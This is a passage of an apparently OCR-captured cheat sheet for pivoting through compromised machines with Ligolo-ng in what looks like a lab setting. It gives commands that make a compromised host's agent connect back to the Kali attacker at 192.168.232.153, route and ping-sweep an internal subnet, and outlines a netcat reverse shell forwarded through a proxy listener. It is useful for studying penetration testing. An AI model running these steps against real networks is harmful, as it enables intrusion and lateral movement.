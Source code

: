 ```bash
`sudo ip tuntap add user "your-Kali-User" mode tun ligolo`  
`sudo ip link set ligolo up`  

#3.Start Ligolo Proxy on Kali:  
`./proxy --selfcert`  

#4.execute Ligolo Agent to Compromised Machine:  
`.\agent.exe -ignore-cert -connect 192.168.232.153:11601`  

#5.Interact with Sessions via Ligolo Proxy**:  
`session` #1 Ligolo-1 
`ifconfig` #192.168.8.129
`start` #establishing a connection between kai & Ligolo-1 

#6.Add Route to New Subnet on Kali**:  
`sudo ip route add 192.168.8.0/24 dev ligolo`  

#7.Ping the New Subnet:  
`ping 192.168.8.129` 

#8.Ping Sweep to Discover Hosts:  
for i in {1..254} ;do (ping -c 1 192.168.8.$i | grep "from" &) ;done 

#9.Execute Reverse Shell from Ligolo-2 to Kali:
###########################################
#=>(Found : Ligolo-2 Machine 192.168.8.130) 
#=> exploit RCE on Ligolo-2
##########################################

# [+] # upload netcat and establish a reverse shell on Ligolo-2
# [-] kali -----> Ligolo-2 # we  connect to kali from Ligolo-2
# [-] kali <-- X -- Ligolo-2 # we can't connect to kali from Ligolo-2

# To resolve this issue we need to set up a listener in Ligolo's proxy: Essentially, this listener will be responsible for forwarding traffic from port 8080 on the compromised machine to port 80 on our local Kali machine.

+------------------------------------------------------------+
| Compromised Machine (Ligolo-2)                             |
| IPs:  192.168.119.128  /  192.168.8.130                    |
|                                                            |
+------------------------------------------------------------+
                |
                | 192.168.8.129:8080
                v
+------------------------------------------------------------+
| Compromised Machine (Ligolo-1)                             |
| IPs: 192.168.232.133 / 192.168.8.129                       |
| [+] Logolo-ng Agent  & pivot machine                       |
+------------------------------------------------------------+
                |
                | (Traffic Forwarding)
                v
+------------------------------------------------------------+
| Ligolo Proxy Listener                                      |
| listener_add — addr 0.0.0.0:8080 — to 127.0.0.1:80 — tcp   |
+------------------------------------------------------------+
                |
                | (Traffic Received) 192.168.232.153:80
                v
+------------------------------------------------------------+
| Kali Machine                                                |
| IP: 192.168.232.153                                         |
```